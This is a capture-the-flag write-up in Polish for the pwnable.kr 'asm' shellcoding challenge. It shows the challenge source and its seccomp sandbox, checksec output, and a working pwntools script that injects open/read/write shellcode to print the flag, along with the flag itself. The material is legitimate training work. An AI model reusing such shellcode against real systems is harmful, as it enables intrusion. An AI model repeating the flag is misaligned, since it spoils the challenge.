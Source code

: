 ## asm - 6 pt ##

Flaga: `Mak1ng_shelLcodE_i5_veRy_eaSy`

Readme: `once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)`

Kod źródłowy **asm.c**:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```
* Output z checksec:
```
asm@ubuntu:~$ checksec asm
[*] '/home/asm/asm'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
* Binarka posiada "sandbox'a" zbudowanego na SECCOMP - piaskownica filtruje syscalle i dopuszcza dla wątku jedynie operacje:
  * `SCMP_SYS(open)`
  * `SCMP_SYS(read)`
  * `SCMP_SYS(write)`
  * `SCMP_SYS(exit)`
  * `SCMP_SYS(exit_group)`
* Wszystko o SECCOMP do zadania można znaleźć tutaj: http://man7.org/linux/man-pages/man3/seccomp_init.3.html
* Każda inna operacja zabija wątek, bez możliwości przechwycenia sygnału
* Bajty "shellcode" ze zmiennej `stub` na platformie x64 odpowiadają następującym instrukcjom:
```asm
   0:   48 31 c0                xor    rax,rax
   3:   48 31 db                xor    rbx,rbx
   6:   48 31 c9                xor    rcx,rcx
   9:   48 31 d2                xor    rdx,rdx
   c:   48 31 f6                xor    rsi,rsi
   f:   48 31 ff                xor    rdi,rdi
  12:   48 31 ed                xor    rbp,rbp
  15:   4d 31 c0                xor    r8,r8
  18:   4d 31 c9                xor    r9,r9
  1b:   4d 31 d2                xor    r10,r10
  1e:   4d 31 db                xor    r11,r11
  21:   4d 31 e4                xor    r12,r12
  24:   4d 31 ed                xor    r13,r13
  27:   4d 31 f6                xor    r14,r14
  2a:   4d 31 ff                xor    r15,r15
  2d:   20                      .byte 0x20
```
* Głównym zadaniem jest stworzenie prostego shellcode odczytującego plik o nazwie `this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong`
* Warto skorzystać z możliwości zainstalowanych na serwerze `pwntools` i za pomocą modułu `shellcraft` stworzyć kod, którego logika składa się z trzech kroków:
  * Otworzenie pliku z podanej ścieżki
  * Odczytanie go
  * Wypisanie odczytanego pliku na STDOUT
* Kod exploita:
```python
from pwn import *
context(arch='amd64', os='linux')

FLAG_FILE = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"

c = ssh(host='pwnable.kr', user='asm', password='guest', port=2222)
p = c.connect_remote('localhost', 9026)

sh = ""
sh += pwnlib.shellcraft.open(FLAG_FILE)
# RSP - path to flag
sh += shellcraft.read('rax', 'rsp', 100)
sh += shellcraft.write(1, 'rsp', 100)

p.recvuntil('shellcode: ')
p.send(asm(sh))
log.info(p.recvline())
```
* Output z działania:
```
[x] Connecting to pwnable.kr on port 2222
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[x] Connecting to localhost:9026 via SSH to pwnable.kr
[+] Connecting to localhost:9026 via SSH to pwnable.kr: Done
[*] Mak1ng_shelLcodE_i5_veRy_eaSy
[*] Closed remote connection to localhost:9026 via SSH connection to pwnable.kr
```
